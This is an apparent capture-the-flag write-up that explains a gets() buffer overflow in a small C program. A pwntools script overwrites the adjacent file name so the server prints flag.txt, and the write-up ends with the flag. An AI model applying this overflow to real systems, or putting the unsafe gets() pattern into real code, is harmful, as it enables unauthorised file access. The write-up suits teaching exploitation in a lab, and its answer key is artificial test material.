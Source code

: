 # Stacks of Flags

## Challenge

We are given a binary and source code.

Connecting to the challenge prompts us to enter the name of a flag.
Regardless of our input, the server will respond with a list of fake flags that do not match the flag format.

If we look at the source code, we can see that the server is simply readying from a `available_flags.txt` file.
Our input is stored, but not used in any way.

The comment in the source code reveals that there is a `flag.txt` file, but we have no immediate access to this file.

### Source code

```c
#include <stdio.h>
#include <stdlib.h>

/*
    I still haven't taken the time to move our super secret flag
    in "flag.txt" out of this directory. For now I've just made
    totally sure nobody can access it.
        - "Pops"
    */

int main()
{
    setvbuf ( stdout, NULL , _IONBF , 0 );
    
    char file_name[] = "./available_flags.txt";
    char desired_flag[64];

    printf("Hi! Welcome to the \"Mom and Pops' Flags\" flag search page!");
    printf("\nPlease enter the name of the flag you wish to purchase: ");

    gets(desired_flag);

    FILE *flags = fopen(file_name, "rb");

    printf("\nOh, sorry! We don't have that flag in stock :(\nHere is a list of the available flags:\n");
    char ch;
    while ((ch = fgetc(flags)) != EOF)
        putchar(ch);

    fclose(flags);
    printf("\nPlease come back later!");

    return 0;
}
```

## Solution

The call to `gets` is unsafe and introduces a buffer overflow vulnerability.
It is reading into a buffer of 64 bytes, but we can write more characters than this limit, which will overwrite other local variables.

The `file_name` variable stores the name of the file to read from.
It is also on the stack, below the `desired_flag` buffer.
If we read 64 characters to pad the `desired_flag` buffer, the remainder of our input will go into `file_name`.

To read from `flag.txt`, we send 64 arbitrary characters, followed by `flag.txt`.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv1.momandpopsflags.ca --port 1946 search_source
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('search_source')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv1.momandpopsflags.ca'
port = int(args.PORT or 1946)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x60-0x20: b"flag.txt",
    })
io.sendlineafter(b"Please enter the name of the flag you wish to purchase: ", payload)

io.interactive()
```

## Flag

```
magpie{5tumBl3D_tH3_5t4cK_4h502aBAS76}
```
